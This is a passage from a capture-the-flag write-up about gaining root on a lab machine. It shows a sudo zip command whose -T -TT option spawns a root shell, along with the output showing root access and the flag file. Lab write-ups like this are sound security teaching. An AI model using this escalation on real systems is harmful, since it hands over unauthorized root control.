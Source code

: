<br>

## Root

I use their example and zip up the user.txt located in /home/merlin:

`sudo /usr/bin/zip mktemp -u user.txt -T -TT 'sh #'`

```
        zip warning: mktemp.zip not found or empty
  adding: user.txt (stored 0%)
# whoami
root
#
```

And we have root!

Grabbing our root flag:

`wc -c /root/root.txt`

```
17 /root/root.txt
```

If you want a little insight into how the author created this CTF you can look at the /home/merlin/.bash_history file.

<br>

With that we've completed this CTF!

![](images/tomghost4.png)
